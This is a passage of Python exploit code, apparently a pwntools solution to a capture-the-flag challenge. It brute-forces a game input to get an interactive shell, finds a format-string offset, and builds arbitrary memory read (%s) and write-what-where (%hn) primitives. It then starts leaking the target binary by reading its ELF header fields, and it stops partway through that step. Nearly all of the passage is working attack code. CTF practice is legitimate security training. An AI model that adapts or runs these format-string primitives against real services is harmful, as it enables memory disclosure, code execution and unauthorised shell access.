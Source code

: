 ```python

def send_payload_system(r):
    progress = log.progress('Try to win and get a shell')
    for n in range(1000, 10000):
        if is_good_number(n):
            progress.status(str(n))
            r.send(str(n).encode()+b"\n")
            res = r.recvuntil(b'Enter your nickname for scoreboard :', timeout=0.01)
            if b'Enter your nickname' in res:
                progress.success('Win !')
                r.interactive()
                return

progress = log.progress('Looking for format string offset')

JUNK = ""
OFFSET = 0

for i in range(50):
    progress.status(str(i))
    g = cyclic_gen()
    res = send_payload(get_remote(), g.get(8)+"|%{}$p|".format(str(i)).encode()).split(b'|')[1]
    if res.startswith(b'0x'):
        if g.find(int(res, 16))[0] > -1:
            OFFSET = i
            JUNK = b"A"*g.find(int(res, 16))[0]
            break
        

progress.success(str(OFFSET))

def memleak(r, offset, junk, addr):
    try:
        res = send_payload(r, junk+pack(addr)+"|%{}$s|".format(offset).encode())
        return b''.join(res.split(b'|')[1:-1])+b"\x00"
    except:
        return b"\x00"

def write_what_where(what, where, offset, junk=b""):
    if what < 65535:
        return junk+pack(where)+"%{}x%{}$hn".format(what-len(junk)-4 ,offset).encode()
    else:
        first = what % 0x10000
        second = int(what / 0x10000)
        payload = junk+pack(where)+pack(where+2)
        len_payload = len(payload)
        payload += "%{}x%{}$hn".format(first-len_payload, str(offset)).encode()
        second_len = second-first if first < second else 0x10000-first+second
        payload += "%{}x%{}$hn".format(second_len, str(offset+1)).encode()
        return payload

def solve_level_2(OFFSET, JUNK):
    e_shoff = memleak(None, OFFSET, JUNK, 0x8048000+0x20)
    e_shoff = e_shoff[1]*256+e_shoff[0]
    log.info("e_shoff: {}".format(e_shoff))
    e_shentsize = memleak(None, OFFSET, JUNK, 0x8048000+0x2e)[0]
    log.info("e_shentsize: {}".format(e_shentsize))
    e_shnum = memleak(None, OFFSET, JUNK, 0x8048000+0x30)[0]
    log.info("e_shnum: {}".format(e_shnum))
    filesize = e_shoff+e_shentsize*e_shnum
    log.info("filesize: {}".format(filesize))

    p = log.progress('Leaking the binary')
```